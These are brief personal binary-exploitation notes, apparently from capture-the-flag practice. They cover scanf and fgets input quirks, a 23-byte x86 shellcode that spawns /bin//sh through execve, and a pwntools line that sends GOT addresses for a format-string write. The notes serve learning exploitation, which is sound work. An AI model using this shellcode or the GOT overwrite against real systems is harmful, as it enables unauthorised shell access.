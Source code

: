 ### Rusty notes ###

- scanf: terminated after space (be careful)
- fgets: need to fill with exact bytes

- shellcode payload:
payload = ```"""
    xor eax,eax
    push eax
    push 0x68732f2f 
    push 0x6e69622f 
    mov ebx,esp
    push eax
    push ebx
    mov ecx,esp
    mov al,0xb
    int 0x80 
"""```
size = 23 bytes

Too lazy to use format strings in pwntool so:
p.sendline(p32(got_addr)+p32(got_addr+1)+p32(got_addr+2)+p32(got_addr+3)

